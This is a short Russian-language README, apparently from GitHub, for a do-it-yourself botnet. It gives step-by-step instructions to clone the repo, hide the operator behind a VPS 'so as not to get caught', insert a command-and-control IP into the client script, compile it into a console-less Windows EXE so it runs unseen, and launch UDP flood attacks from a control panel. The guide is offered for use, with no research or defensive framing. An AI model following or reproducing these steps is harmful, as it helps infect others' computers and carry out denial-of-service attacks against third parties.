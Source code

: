 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd bot
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip 
 
​```shell
$ ifconfig <br>
```
Редактируем файл smss.py

<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>

Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки в нашем директории bot <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py<br>
```
<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Запуск панели 
 
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
